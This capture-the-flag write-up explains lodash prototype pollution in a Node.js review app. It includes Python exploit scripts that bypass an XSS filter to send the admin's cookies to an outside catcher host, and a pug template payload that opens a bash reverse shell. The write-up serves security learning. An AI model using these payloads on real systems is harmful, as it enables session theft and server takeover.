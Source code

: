 # valentina

Valentina contained 2 challenges sharing a vulnerability but with different applications.

## Challenge 1

> The website admin checks her reviews with secrets in her cookies.

## Walkthrough 1

Given that this project was deep into npm dependency hell the first obvious step was to check if any libraries had vulnerabilities.

```
$ npm audit
...
lodash  <=4.17.20
Severity: critical
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
Prototype pollution in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
...
```

Digging into these vulnerabilities and the source code unveiled that [CVE-2018-3721](https://snyk.io/test/npm/lodash/4.17.4#npm:lodash:20180130), a [prototype pollution](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/) vulnerability, was likely the target.

> The vulnerable functions are 'defaultsDeep', 'merge', and 'mergeWith' which allow a malicious user to modify the prototype of Object via __proto__ causing the addition or modification of an existing property that will exist on all objects.

```js
app.post('/add_review', function (req, res) {
	// ...
	let review_template = {
		review_id: id,
		name: "Valentina",
		message: "your work is amazing!",
		stars: 5
	}

	let new_review = req.body;
	_.merge(review_template, new_review); // <-- this looks vulnerable!
	let cleaned_msg = xss(new_review.message);
	reviews.set(id, cleaned_msg);
	// ...
});
```

Now that I had a way to pollute arbitrary objects, I just needed to find a way to bypass `xss()`, an html escaping function in [xssjs](https://github.com/leizongmin/js-xss).

```js
FilterXSS.prototype.process = function (html) {
	// ...
	var options = me.options;
	var whiteList = options.whiteList; // This isn't set!
	// ...
```

Reading the source code revealed that we could control the `whiteList` variable which controlled which tags were escaped.

```json
"whiteList": {
	"a": ["target", "href", "title"],
	"abbr": ["title"],
	"address": [],
	"_comment": "...",
}
```

To retrieve the cookies I added the `script` tag to the whitelist and than had the admin visit the review.

```py
import requests

url = "http://localhost:8999/add_review"
payload = "fetch('https://crimist.requestcatcher.com/'+document.cookie)"
review = requests.post(url, headers={'content-type': 'application/json'},
                            data='{"__proto__": {"whiteList": {"script": []}}, "message": "<script>' + payload + '</script>"}')
id = review.text.split(":")[1]
print("http://localhost:8999/view_review?review_id=" + id) # submit this to /report
```

## Solve 1

`maple{l0d4sh_more_lyk_n0da5h_haha_get_it}`

## Challenge 2

> `flag.txt` exists in the projects directory.

## Walkthrough 2

Given that this website was served by nodejs and I couldn't read arbitrary files it was clear I'd have to pwn the server further.

After searching for ways to exploit this prototype pollution vulnerability further I found [this blog post](https://blog.p6.is/AST-Injection/#Pug) about exploiting [pug](https://github.com/pugjs/pug), the template engine used in this project.

I won't re-hash their work, check out the post if you're interested. To summarize, it gets you RCE so you can pop a reverse shell.

```py
import requests

url = "http://localhost:8999"
review = requests.post(url + "/add_review", json={
    "__proto__": {
        "debug": True,
        "block": {
            "type": "Text",
            "line": "console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<ipip>/3333 0>&1'`))",
        },
    },
    "message": ":)",
})
```

## Solve 2

`maple{Th1s_was_really_c0mpl1cAted_Im_s0rrY}`
